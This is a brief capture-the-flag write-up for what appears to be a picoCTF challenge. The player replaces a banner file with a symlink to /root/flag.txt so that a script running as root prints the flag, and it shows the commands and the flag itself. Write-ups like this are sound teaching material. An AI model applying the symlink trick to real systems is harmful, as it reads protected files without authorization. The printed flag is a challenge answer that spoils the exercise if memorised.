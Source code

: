 First step is to get the password from the unsecure port.  Then use that to login and answer the questions you can find via Google.

On the server you are logged in as `player` and you need to get the flag file at `/root/flag.txt`.  The Python script in `/root` is what runs when you login.

The first thing the banner script does is read the banner file.  The way I "hacked" the script was to delete `~/banner` and replace it with a symlink to the flag:

```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt ./banner
ln -s /root/flag.txt ./banner
```

Then open up a new terminal and login:

```
└─$ nc tethys.picoctf.net 51737
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

what is the password? 
```

Works because the Python script is being run as `root` so it will read the flag file that is owned by `root`.
